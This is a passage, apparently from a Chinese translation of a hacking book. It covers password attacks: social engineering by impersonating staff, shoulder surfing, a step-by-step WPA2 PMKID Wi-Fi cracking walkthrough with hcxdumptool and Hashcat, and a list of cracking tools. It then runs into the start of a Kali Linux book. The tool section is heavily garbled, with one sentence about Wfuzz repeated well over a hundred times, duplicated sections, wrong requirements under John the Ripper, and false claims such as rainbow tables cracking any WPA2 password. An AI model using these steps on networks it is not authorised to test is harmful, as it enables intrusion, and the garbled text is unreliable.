- ✓ 整个笔记本电脑都需要你使用加密技术。
- ✓ 机房应该关闭并监控。
- ✓ 应该保留一份组织内使用的软件和硬件清单。
- ✓ 应使用适当的技术保护计算机媒体。
- ✓ 确保网络内所有的安全漏洞都已封堵。
- ✓ 利用批量擦除。

## 第 7 章：密码

在本章中，讨论将围绕以下领域展开：

- ➢ 调查密码漏洞
- ➢ 检查密码破解技术和工具
- ➢ 破解受密码保护的文件
- ➢ 如何保护系统免受密码破解

黑客可以通过密码破解轻松获取网络访问权限。他们会更关注用户管理员密码，以便能够轻松访问整个网络。有些人会使用强密码；而一个下定决心破解密码的黑客无论花费多少时间都会去破解。在安全链中，密码是最薄弱的一环。在大多数情况下，密码依赖于保密性。一旦密码泄露，许多人就可以访问网络。确保你对所有的密码负责是好的。

外部攻击者可以使用不同的技术破解你的密码。他们可以通过索要密码来获取密码。他们还可以进行窥视攻击。在某些情况下，攻击者还可以使用密码破解软件。为了获取密码，外部攻击者将利用键盘记录器和网络分析器。在本章中，你将发现外部攻击者如何通过渗透你的网络轻松获取你的密码。文中还会提到一些密码漏洞，并概述相应的应对措施。这些应对措施将确保外部攻击者无法轻易利用你的系统。如果你执行一些漏洞测试并实施上述的应对措施，你将能够保护用于访问网络的密码。

### 密码漏洞

在平衡安全成本与公司内部信息的价值之后，公司内部使用的密码应该是足够的。密码会产生一种虚假的安全感。攻击者在试图渗透网络时总是尝试破解密码。

依赖密码来保护贵贵信息的主要问题是许多人都能接触密码。主要问题在于你无法完全了解一个人。此外，尽管一个人可能知道密码，但他们可能并不是授权用户。密码漏洞分为两类，包括：

1. **用户漏洞**：此类分类意味着缺乏保护密码的策略。此外，缺乏安全意识也是不可取的。
2. **技术漏洞**：这涉及使用加密的加密方法。此外，密码也可能以不安全的方式存储。

保护物理环境也是保护网络密码的最佳方法之一。这种技术效果良好。主要问题是，如今计算机具有网络连接功能，物理安全已经消失了。

### 组织密码漏洞


便利性非常重要，特别是当一个人一次需要记住许多密码时。这些密码很难管理，而且外部攻击者在密码破解过程中面临许多挑战。攻击者拥有的主要优势是，人们通常会设置自己容易记住的密码。他们总是尝试不同的组合，直到遇到正确的密码为止。之后，他们就可以轻松地访问网络。

用户应该接受教育，并提醒他们使用强密码的重要性。主要问题是，某些用户设置的密码很容易猜到。用户很少更改密码。密码被重复使用，以保护网络中的许多位点。一旦攻击者获取了被重复使用的密码，他们就可以访问系统中的许多点。这些密码可能被记录在不安全的地方。复杂的密码无法被破解。主要问题是，当一个人想出一个复杂的密码时，他们极可能会将其写下来。当攻击者获取了这些密码时，他们会利用这些信息来对付你。

## 技术密码漏洞

在利用了组织的一些密码漏洞后，你可能还会发现一些技术漏洞，它们包括：

- 弱的密码加密方案。黑客可以使用一些强大的机制来破解弱密码。在本章中，我们还将进一步讨论外部攻击者用于破解密码的一些技术。许多供应商认为，只要他们没有发布在制定加密算法期间使用的源代码，密码通常就是安全的。一些耐心且执着的黑客会花时间尽可能快地破解每个安全协议。破解代码后，他们将利用弱加密的漏洞。

- 通常将密码存储在不安全且易于访问的文件和数据库中的程序。

- 在用户输入时，通常会在屏幕上显示密码的用户级应用程序。

## 破解密码

外部攻击者非常喜欢破解密码的过程。他们主要喜欢破解密码过程中存在的探索感。虽然你可能对探索许多人的密码并不感兴趣，但用这种心态来处理黑客过程是好的。获取一个密码后，很容易获得其他多个密码，从而让你能够轻松地访问网络。大多数攻击者会主要针对 root 和管理员的密码。

管理员密码非常重要，因为它们将赋予外部攻击者更多的网络访问权限。只要你拥有管理员权限，就可以操纵并访问网络上的任何内容。当你在寻找组织内部密码漏洞时，始终从网络管理员等高访问级别的账户开始测试。大多数攻击者都会使用这种战术。你可以通过不同的方式利用系统。你可以使用高科技和低科技方法。一些低科技方法如下：

### 社会工程学

这是一种低科技方法，在收集密码时也非常流行。社会工程学主题已经在之前的章节中涵盖过。至于社会工程学，它侧重于利用人类的信任本质。在获取密码和其他信息后，攻击者可以继续利用这些信息来牟利。

**技术**：在使用社会工程学获取密码时，你只需要询问。由于该技术涉及操纵，你只需伪装成组织内的员工，使用电子邮件或其他任何技术询问密码。

有时，用户会将密码提供给负责安全测试过程的人员。测试阶段结束后应重置密码。重置密码后，你对之后网络中可能丢失的任何信息不负责。

**防御措施**：确保你通过安全培训计划提高意识；这样，你就可以轻松确保攻击者无法通过社会工程学收集任何信息。对访问网络的人员应接受如何识别攻击者的培训。例如，他们应该知道攻击者会利用虚假电话和垃圾邮件。他们应该忽略这些邮件。向安全管理员报告任何可疑活动（例如存在可疑电话）也是好的。

### 偷窥视

这是一种从他人背后窥视的技术。攻击者这样做主要是为了获取用于访问网络的密码。

**技术**：为了配合这种攻击，攻击者应该靠近目标，并试图隐藏他们的真实动机。他们将通过监控用户登录网络时的键盘和屏幕来收集密码。眼力好的外部攻击者可以轻松获取密码。偷窥视非常简单，你也可以自己尝试。

**防御措施**：始终鼓励用户保持警惕，使外部攻击者无法获取他们的密码。每当他们在环境中发现任何奇怪活动时，他们都不应输入密码。如果有人在你的肩后窥视，你应该礼貌地请他们离开。确保你在输入密码时，他们看不到你的密码。

### 推断

这是一种攻击者根据他们收集的关于用户的信息来猜测密码的情况。一些细节包括出生日期、电话号码，甚至是喜欢的电视节目。外部攻击者的主要问题是，他们为了实现目标非常有决心。

最好的防御机制是恰当地教育用户如何创建安全的密码，这些密码不要与出生日期等个人信息相关。用户还应该不断被提醒创建安全密码的重要性。

### 弱身份验证

恶意用户和外部攻击者将尝试通过不同手段获取密码。他们还可能利用某些旧操作系统的漏洞，因为它们在登录过程中不需要任何密码。某些手机没有使用密码保护。

## 高科技密码破解

高科技密码破解涉及使用不同的程序来猜测用于访问网络的密码。一些高科技技术被用于访问受密码保护的数据库文件。主要的密码破解技术包括暴力破解、字典攻击和彩虹表攻击。

### 破解 WPA2 Wi-Fi

破解 WPA2 网络的技巧多年来没有变化。与以前的一些技术相比，最新的技术要求你交互减少，并确保你拥有充分的信息。你也可以访问各种网络，尽管它们可能没有连接。可以使用 `PMKID` 访问 WPA2 网络。你可以使用的工具包括 `Hashcat`。该工具将使你能够破解 WPA2 Wi-Fi 密码。此外，在使用此类工具时，你可以轻松识别出一些密码密码的网络。


旧技术已经使用了多年，你应当暂时断开连接设备与你想要破解的接入点的连接。作为一名黑客，你必须理解其中的一些要点。

主要的挑战是，必须有人连接到网络，你才能发起攻击。所使用的密码也应该是弱密码，这样攻击者才能轻松破解。如果没有连接的设备，将很难连接网络，因为你缺乏捕获握手（handshake）的机会，这就是为什么你无法破解该网络的原因。

这种技术的另一个挑战是它在法律上存在问题且特征性很高。你将被迫故意发送一些数据包，以便将授权用户从网络中断开。你将发起 DoS 攻击，导致网络拥堵。你还可能陷入麻烦，因为你很容易被发现。

## 用于破解 WPA2 Wi-Fi 的新方法

攻击者不再尝试拦截两个 Wi-Fi 设备之间的双向通信来破解密码，而是可以使用新技术直接与脆弱的接入点进行通信。攻击者可以使用的一些工具包括 `Hashcat`。该工具可用于发起暴力破解攻击，它主要收集可以方便此类此类攻击的信息。

如既往一样，攻击者需要靠近他们计划攻击的 WPA Wi-Fi 网络。主要目标是使用兼容的无线网络适配器，并可能获取某些可以辅助攻击的信息。与 `Aircarck-ng` 和 `Aireplay-ng` 相比，无线攻击工具证明更加高效。

## 使用 Hcxtools 和 Hashcat

`hcxpcaptool` 和 `hcxdumptool` 是对 Wi-Fi 网络进行渗透测试和审计的工具。使用这些工具时，你可以轻松捕获 WPA2 握手包和 PMKID 哈希。使用命令行启动攻击时，需要极少的参数。该工具还可以针对某些方便的目标运行。也可以通过 `SSH` 执行攻击。尽管 `Raspberry Pi` 等设备没有屏幕，但也可以使用。

捕获 `PMKID` 后，应将哈希加载到 `Hashcat` 中以破解 WPA2 Wi-Fi 密码。使用 `hcxpcaptool` 将 `PCAPNG` 文件转换为与 `Hashcat` 的版本。然后就可以进行暴力破解尝试。

使用这种技术对每个网络进行攻击是不可能的。成功率取决于目标 WPA2 Wi-Fi 网络上所有密码的复杂性。多种因素决定了你是否能够获取 `PMKID`。

## 你需要什么？

执行此类攻击时，你必须使用 `Kali Linux` 软件。此外，你应该能够访问无线网络适配器，且它应该支持数据包注入和监控模式。当你尝试选择兼容的无线网络适配器时，许多指南非常有用。

除了 `Kali Linux` 提供的适配器外，系统应该完全更新和升级。如果不这样做，你会发现某些软件包已过时，并在捕获过程中遇到一些问题。

## 第 1 步：安装 Hashcat 和 Hxctools

首先，你应该安装所需的工具。要下载必要的工具，在终端窗口输入以下文本。



安装过程完成后，你将安装 `hxctools`。此时，打开终端窗口并逐行粘贴所有内容。如果发生错误，在文本前输入 `sudo` 命令。



然后你将安装 `Hashcat` 工具。该过程应该是简单的。确保你已经安装了最新版本的 `Hashcat` 工具。


## 第 2 步：准备无线网络适配器

接入无线网络适配器后，你可以通过输入 `ip a` 或 `ipconfig` 查找 WPA2 网络名称。网络名称通常不同。首先，确保网卡已进入无线监控模式。随后你就能监听 Wi-Fi 流量。你应该在终端窗口中输入以下命令，并替换无线网络适配器的名称。

```
hcxdumptool -i wlan1tue -o galleria.pcapng –enable__status=1
```

无线适配器的名称也可能是 `wlan1tue`。保存捕获的 `PMKIDs` 是帮助的，它们保存在名为 `galleria.pcapng` 的文件中。可以指定状态值。

```
warning: Network Manager is running with pid 555
warning: wpa_supplicant is running with pid 611
warning: wlan1mon is probably a monitor interface
start capturing (stop with ctrl+c)
INTERFACE.…………: wlan1mon
FILTERLIST………….: 0 entries
```

无线网络适配器也应该处于监控模式。

## 第 3 步：在捕获本地网络 PMKIDs 时使用 Hxcdump

你可以捕获想要攻击的设备的 `PMKIDs`。你可以执行的一些命令包括：



收集到足够的信息后，你可以结束攻击。这将产生一个 `PCAPNG` 文件，它包含了辅助暴力破解所需的所有信息。这些信息还应转换为 `Hashcat` 工具易理解的格式。

## 第 4 步：使用 Hxcpcaptool 将转储文件转换为 Hashcat

`hcxpcaptool` 用于转换 `PCAPNG` 文件。还指定了一些参数。在保存 `PCAPNG` 文件的相同文件夹中，你应该在终端窗口输入以下命令。



运行命令后，终端窗口将显示以下信息：



上下文显示你在短时间内收集了至少 21 个 `PMKIDs`。现在可以使用 `galleriaHC.16800` 文件来破解网络密码了 _ 了。

## 第 5 步：选择密码列表并使用 Hashcat 进行暴力破解

当你开始攻击已成功捕获的 Wi-Fi 网络时，必须从选择一个良好的密码列表开始。选择好密码列表后，你可以将转换后的所有密码与 `.16800` 文件放在类似的文件夹中。然后你应该在终端窗口中运行以下命令：



`Hashcat` 应在 `16800` 模式下启动。随后将对 `WPA-PMKID-PBKDF2` 网络协议发动攻击。你还需要指定需要破解的文件名，在本例中我们正在使用 `galleriaHC.16800`。`--force` 选项将忽略进行攻击时出现的任何警告。暴力破解非常有效，在此语境下，我们正在使用 `topwifipass.txt`。



完成攻击所需的时间取决于密码列表的大小和硬件速度。要查看状态更新，你应该始终按下 `S` 键。

## 第 6 步：解释结果

当 `Hashcat` 命令尝试破解 Wi-Fi 密码时，你也可以检查当前的进度。



当密码列表结束，`Hashcat` 会调整工作负载，之后你将获得一份最终报告。



如果你成功破解了某些密码，你会发现你可以在那里看到所有的密码。至于测试运行，收集的 `PMKIDs` 包含密码列表中的密码，因此无法破解任何哈希。在破解某些网络时，特别是当存在强密码时，可能会遇到此类问题。

## PMKID Hashcat 攻击确保 Wi-Fi 攻击变得更容易


尽管这种技术已被证明是有效的，但过去某些破解 WPA2 Wi-Fi 密码的策略仍然有效。如果网络不支持包含 `PMKID` 的某些安全元素，Wi-Fi 破解过程可能不会成功。你可以使用 `hcxtools` 首先对你的网络进行审计，了解它们是否容易受到攻击。虽然你的网络可能存在漏洞，但应该设置一个强密码，这样攻击者攻击网络的努力可能证明是徒劳的。

大多数此类攻击依赖于猜测可能用于访问 Wi-Fi 网络的密码，在猜测过程中，你可以从猜测一些默认密码开始，其中可能包括 `password` 和 `12345678`。这类密码很容易被破解。在猜测过程中，你还可以尝试利用一些泄露的数据。用于访问此类数据的技术包括进行社会工程攻击，因为这有助于恢复一些敏感信息。密码也可能在不同账户上重用。这种技术也可能证明非常有效。

## 密码破解工具

你可以使用不同的工具来破解不同组织的密码和操作系统。一些知名的密码破解工具包括：

### Cain & Abel

`Cain & Abel` 密码恢复工具用于微软操作系统。它允许人们恢复密码，因为该工具会嗅探你选择的网络。你还可以使用 `Cain & Abel` 的字典、密码分析攻击、暴力破解、解码混乱密码、录制 VoIP 会话、显示密码框、恢复无线网络密钥、分析路由以及发现缓存密码来破解不同的密码。

该工具定期更新，最新版本具有许多功能，包括 `APR` 并允许人员在交换局域网上进行嗅探。你还可以启动中间人攻击。嗅探器还可以分析一些加密协议，包括 `HTTPS` 和 `SSH-1`。它们还包含捕获特定用户凭据的过滤器。最新版本的 `Cain & Abel` 还提供了针对常用哈希算法的路由提取器、路由协议、暴力破解和字典攻击、大量的密码计算器、特定身份验证、密码解码器、密码分析攻击以及一些与网络安全常用的实用程序。

### 谁应该使用 Cain & Abel 工具？

`Cain & Abel` 工具的特定目标观众是网络管理员、专业渗透测试人员、教师、取证人员、安全专家和安全软件供应商。

**要求：** 要成功安装 `Cain & Abel`，你的系统应满足以下规范：

* ➢ 至少 10MB 的磁盘空间
* ➢ Microsoft Windows XP/ 2000/Vista
* ➢ `Winpcap` 数据包驱动程序
* ➢ `Airpcap` 数据包驱动程序

**安装：** 你应该从下载 `Cain & Abel` 开始。运行执行文件并遵循每条安装指令。



### Brutus

`Brutus` 是一种用于破解密码的热门工具。它非常灵活且快速。该密码破解工具免费提供，只能在 Microsoft Windows 操作系统上使用。

它支持以下格式：`POP3`、`HTTP` (Form, `HRML`, `CGI`)、`SMB`、FTP、IMAP、Telnet、NetBus 和 `NNTP`。你还可以创建自己的身份验证类型。该工具由于支持多阶段身份验证引擎而闻名。你可以在暂停某些当前活动后恢复并加载不同的选项。

### RainbowCrack

与其他启动暴力破解的工具相比，该密码破解工具破解密码的速度很快。该工具利用计算过程形式的大时间内存来计算哈希对和明文。`RainbowCrack` 使用了选定的哈希算法。计算过程结束后，结果将出现在彩虹表下。这个过程需要大量时间。表准备好后，与使用暴力破解相比，你可以快速破解任何 WPA2 网络密码。

这个过程需要大量时间。表准备好后，与使用暴力破解相比，你可以快速破解任何 WPA2 网络密码。

`RainbowCrack` ... `NTLM` 和 `LM` 哈希。

### Wfuzz

`Wfuzz` 用于破解密码。`Wfuzz` 用于破解密码。`Wfuzz` 也用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。...

### John the Ripper

`John the Ripper` 适用于微软操作系统。它是 Windows 平台最流行的密码破解工具。它也可以用于 Mac OS 和 Linux 操作系统，在破解 `NTLM` 和 `LM` 哈希时非常方便。还有彩虹表，它们是免费的。

要求：要成功安装 `Cain & Abel`，你的系统应满足以下规范：

* ➢ 至少 10MB 的磁盘空间
* ➢ Microsoft Windows XP/ 2000/Vista
* ➢ `Winpcap` 数据包驱动程序
* ➢ `Airpcap` 数据包驱动程序

安装：你应该从下载 `Cain & Abel` 开始。运行执行文件并遵循每条安装指令。


### Brutus

`Brutus` 是一种用于破解密码的热门工具。它非常灵活且快速。该密码破解工具免费提供，只能在 Microsoft Windows 操作系统上使用。

它支持以下格式：`POP3`、`HTTP` (Form, `HRML`, `CGI`)、`SMB`、FTP、IMAP、Telnet、NetBus 和 `NNTP`。你还可以创建自己的身份验证类型。该工具由于支持多阶段身份验证引擎而闻名。你可以在暂停某些当前活动后恢复并加载不同的选项。

### RainbowCrack

与其他启动暴力破解的工具相比，该密码破解工具破解密码的速度很快。该工具利用计算过程形式的大时间内存来计算哈希对和明文。`RainbowCrack` 使用选定的哈希算法。计算过程结束后，结果将出现在彩虹表下。这个过程需要大量时间。表准备好后，与使用暴力破解相比，你可以快速破解任何 WPA2 网络密码。

`RainbowCrack` ... `NTLM` 和 `LM` 哈希。

### Wfuzz

`Wfuzz` 用于破解密码。`Wfuzz` 也用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。...

`Wfuzz` 的主要功能：

* ➢ POST 能力
* ➢ 请求之间的时间延迟
* ➢ 彩色输出
* ➢ 代理支持
* ➢ Cookies
* ➢ Fuzzing
* ➢ 多线程

### THC Hydra

`John the Ripper` 用于发现漏洞。`Wfuzz` 用于发现漏洞。`Wfuzz` 用于发现漏洞。



### Medusa

`Medusa` 与 `THC Hydra` 相似。`Medusa` 支持多种网络协议，包括 `FTP`、`HTTP`、`IMAP`、`MYSQL`、`POP3`、`NNTP`、`CVS`、`pcAnywhere`、`AFP`、`rsh`、`SMTP`、`MS SQL`、`PostgreSQL`、`SMB`、`SSH`、`NCP`、`SNMP`、`VmAuthd`、`rlogin`、`Telnet`、`VNC` 和 `SVN`。`Medusa` 以命令行工具的形式存在，因此你需要先学习命令。网络连接性决定了 `Medusa` 密码破解工具的效率。当尝试渗透局域网时，`Medusa` 每分钟可以破解至少 2,000 个密码。


它可以作为 `Ophcrack` 的替代方案。它通常在 Windows 平台上进行密码破解。在破解密码时，它会利用网络服务器、Windows 工作站、活动目录和域控制器。。该工具利用穷破解攻击和字典攻击来生成并猜测密码。其现有功能包括计划例审计功能。在执行审计时，可以设置为每周或甚至每月一次。根据预定的时间，工具会准时开始扫描。

!!(images/00020.jpg)

密码破解工具通常获取一组可能的密码（这些密码可能是通过猜测编译的），并对每一个密码运行算法。在此过程中会产生加密哈希值，然后将其与从初始密码数据库中提取的密码哈希值进行高速比较。一旦找到匹配项，就意味着网络密码已被破解。外部攻击者随后可以访问网络并启动不同的攻击，同时收集各种信息。

一些密码破解工具还尝试使用一些预定义的用户名和密码来黑入网络。字典攻击的工作原理如下，它们包括 `Brutus` 在内的其他密码破解工具。在大多数情况下，预设密码最终会失败。其主要优势是这些工具易于获取；你可以在测试网络是否安全时使用它们。你必须在恶意用户之前寻找网络中的弱性。在密码破解过程中，某些用户账户可能会锁定，过程中可能会出现中断。在某些情况下，会发生 `DoS` 攻击，用户将无法访问网络。

密码通常经过加密。它们还使用特定的加密算法（如 `MD5` 和 `DES`）存储在计算机上。哈希密码由固定长度的加密字符串表示，且相同的密码对应相同的哈希。哈希是不可逆的，这意味着无法解密密码。`Linux` 等平台中的某些密码通常有一个被称为“盐”（salt）的随机值，这确保了某种程度的随机性。因此，尽管两个人的密码相同，每个密码的哈希值也不会相同。

## 结论

感谢阅读《网络黑客》到最后。我希望这本书提供了丰富的信息，让你能够获得实现所有目标所需的所有工具，无论这些目标是什么。尽管你可能已经完成了阅读，但我们还没有耗尽关于该主题的所有信息。你可以通过对该主题进行更多研究，来扩展你对特定领域的知识。

下一步是确保你能够实际应用所掌握的信息。你还可以制定一个计划，以便学习更多网络黑客的知识。你可以利用上述概述的某些网络黑客工具。其中一些工具是免费的，并且附带用户手册。

研究表明网络是脆弱的。外部攻击者想出了不同的技术来渗透网络。他们还编写了帮助他们攻击特定网络的脚本。黑客的技能也很重要。此外，黑客必须拥有目标，这将成为他们在破解过程中的动力。虽然可以通过不同的方式访问网络，但你仍然方法评估漏洞并封堵任何存在的安全漏洞。

### 黑客的 Kali Linux

计算机黑客指南：学习无线渗透测试秘密、使用 Kali Linux 进行攻击的安全工具与技术、网络攻击与利用

## 引言

恭喜购买《Kali Linux for Hackers》，感谢你的支持。

市场上有很多许多关于这个主题的书，再次感谢你选择这一本！我们已尽努力确保它包含尽可能有用的信息；请尽情享受！

从以前，有一个名为 `Unix` 的系统。它是由 `Ken Thompson`、`Dennis Ritchie` 和他们的团队创建的。他们想要一个比当时广泛使用的 `Multics` 更优的系统。他们开发了一种非常强大的语言用于该系统：`C` 语言。从那以后出现了许多 `Unix` 变体：Digital Unix、`AIX`、`HPUX` 甚至针对个人电脑的版本如 `Xenix` 和 `Minix`。我们的故事正始于 `Minix`。一个名为 `Linus Torvalds` 的学生使用并削弱了这个系统，但认为它可以被改进。然后，在 20 世纪 90 年代中期，`Linus` 开发了一个基于 `Minix` 和 `Unix` 的新系统的内核（系统的核心），称为 `Linux`（来自 Linus）。从那里，该系统的日益增长，甚至有了不同版本的 `Linux`（有趣的是，今天 `Linux` 的版本比 `Unix` 本还要多）：Red Hat、`Mandrake`、`SuSe`、`Slackware`、`Debian`，甚至巴西的 `Conectiva` 在数千台服务器和个人电脑中竞争空间。

